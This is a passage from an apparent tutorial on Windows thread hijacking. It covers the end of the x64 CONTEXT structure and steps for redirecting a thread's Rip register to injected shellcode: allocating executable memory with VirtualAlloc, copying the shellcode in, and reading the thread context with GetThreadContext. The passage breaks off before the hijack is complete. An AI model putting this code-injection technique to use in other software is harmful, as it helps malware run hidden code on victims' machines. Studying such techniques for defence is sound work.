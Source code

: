```cpp
      M128A Xmm4;
      M128A Xmm5;
      M128A Xmm6;
      M128A Xmm7;
      M128A Xmm8;
      M128A Xmm9;
      M128A Xmm10;
      M128A Xmm11;
      M128A Xmm12;
      M128A Xmm13;
      M128A Xmm14;
      M128A Xmm15;
    } DUMMYSTRUCTNAME;
    DWORD           S[32];
  } DUMMYUNIONNAME;
  M128A   VectorRegister[26];
  DWORD64 VectorControl;
  DWORD64 DebugControl;
  DWORD64 LastBranchToRip;
  DWORD64 LastBranchFromRip;
  DWORD64 LastExceptionToRip;
  DWORD64 LastExceptionFromRip;
} CONTEXT, *PCONTEXT;
```
Each thread will have its own context structure, What we care about in this structure is the element `Rip` which stores the return pointer.

We need to modify this value to point to the start of our shellcode in memory, As once we resume our thread it will start executing the code in the `Rip` address.

We start by defining a context structure, then setting the `ContextFlags` to `CONTEXT_CONTROL` so that we can modify the context values easily.

```cpp
    CONTEXT context = {};
    context.ContextFlags = CONTEXT_CONTROL;
```

Then we allocate an executable memory region to copy our shellcode:

```
    PVOID pMemory = VirtualAlloc(NULL, dwSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```

Copy our shellcode:

```cpp
        memcpy(pMemory, pAddress, dwSize);
```

The next part we need to get the value of the context structure of our thread we want to hijack in order to update it, we can use `GetThreadContext` API call:

```cpp
BOOL GetThreadContext(
  [in]      HANDLE    hThread,
  [in, out] LPCONTEXT lpContext
);
```
